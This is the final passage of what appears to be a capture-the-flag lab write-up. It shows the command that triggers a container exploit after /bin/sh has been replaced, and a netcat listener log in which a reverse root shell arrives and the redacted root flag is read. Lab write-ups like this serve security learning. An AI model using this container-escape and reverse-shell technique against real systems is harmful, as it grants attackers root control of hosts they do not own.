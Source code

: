 - Once the exploit replaces the file `/bin/sh` with the malicious script, execute the command line below to trigger the exploration

  ```bash
  sudo /usr/bin/docker exec -it webapp-dev01 /bin/sh
  ```

After this execution, was received a reverse shell in the listener previously configured and was able to get the root's flag

```bash
$ sudo nc -lnvp 8080
listening on [any] 8080 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.10.230] 35856
bash: cannot set terminal process group (1617): Inappropriate ioctl for device
bash: no job control in this shell
<4de4eaff90e275467ff2103ff7b6eb2b1ffaf63d44f72a2b2# id
id
uid=0(root) gid=0(root) groups=0(root)
root@thenotebook:/root# cat root.txt
\cat root.txt
<redacted>
```

I hope you guys have enjoyed it!

See you in the next post :smiley:
